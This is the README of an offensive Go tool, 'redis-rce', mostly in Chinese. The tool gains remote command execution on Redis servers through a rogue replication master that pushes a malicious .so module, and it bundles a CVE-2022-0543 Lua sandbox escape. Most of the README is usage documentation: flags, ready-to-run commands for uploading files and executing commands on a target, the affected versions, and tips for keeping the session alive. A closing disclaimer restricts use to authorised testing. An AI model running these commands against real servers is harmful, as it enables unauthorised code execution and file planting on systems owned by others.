

# Redis primary/secondary replication RCE

redis主从复制rce的go版本，可独立编译使用，并集成在在[zscan](https://github.com/zyylhn/zscan)的exploit的redis利用模块中

顺便添加了CVE-2022-0543 Redis Lua 沙盒逃逸 RCE，开箱即用

## 使用方式

```shell
Usage of ./redis-rce:
  -dstpath string
        set target path（上传文件模式中的目标路径）
  -exec
        use execute the command mode（执行命令模式）
  -host string
        set target（目标 redis服务器的地址）
  -lhost string
        set listen host(!!!Make sure the target has access!!!)（我们伪造的主redis的地址）
  -lport int
        set listen port(!!!Make sure the target has access!!!) (default 20001)（我们为在redis开放的端口）
  -pass string
        set redis password（redis的密码，未授权就不填）
  -port int
        set redis port (default 6379)（目标redis的的端口，正常是6379）
  -so string
        set .so file path（用来执行命令的so文件，内置一个，可以不指定）
  -srcpath string
        set upload file path（上传文件模式的本地文件路径）
  -upload
        use upload mode  （上传文件模式）

```

### 上传文件

将当前目录的LICENSE上传到目标的/tmp/test.txt

```
./redis-rce -upload -host 172.16.95.24 -lhost 172.16.95.1 -srcpath LICENSE -dstpath /tmp/test.txt
```



### 执行命令

```
./redis-rce -exec -host 172.16.95.24 -lhost 172.16.95.1
```


### CVE-2022-0543 

```
影响版本An unexpected Redis sandbox escape affecting only Debian, Ubuntu, and other derivatives
Redis >=2.2 and < 5.0.13
Redis >=2.2 and < 6.0.15
Redis >=2.2 and < 6.2.5
安全版本Redis 6.2.5、6.0.15、5.0.13或更高版本
```

使用

```
./redis-rce -lua -host 172.16.95.16 -pass 123456
```


## 注意问题

组从复制影响版本：4.x-5.x

千万不要运行交互式的命令，只要运行了，就连不redis了

如果因为意外链接断开，活着ctl+c结束程序了，会导致模块（so文件）没有unload和上传的so没有被删除，没有被删除问题不大，但是如果模块没有被unload，就不能再load（运行时会检查，如果之前的system没有被unload，会进行unload），尽量使用exit退出

## 免责声明

本工具仅面向**合法授权**的企业安全建设行为，如您需要测试本工具的可用性，请自行搭建靶机环境。

在使用本工具进行检测时，您应确保该行为符合当地的法律法规，并且已经取得了足够的授权。**请勿对非授权目标进行扫描。**

如您在使用本工具的过程中存在任何非法行为，您需自行承担相应后果，我们将不承担任何法律及连带责任。

在安装并使用本工具前，请您**务必审慎阅读、充分理解各条款内容**，限制、免责条款或者其他涉及您重大权益的条款可能会以加粗、加下划线等形式提示您重点注意。 除非您已充分阅读、完全理解并接受本协议所有条款，否则，请您不要安装并使用本工具。您的使用行为或者您以其他任何明示或者默示方式表示接受本协议的，即视为您已阅读并同意本协议的约束。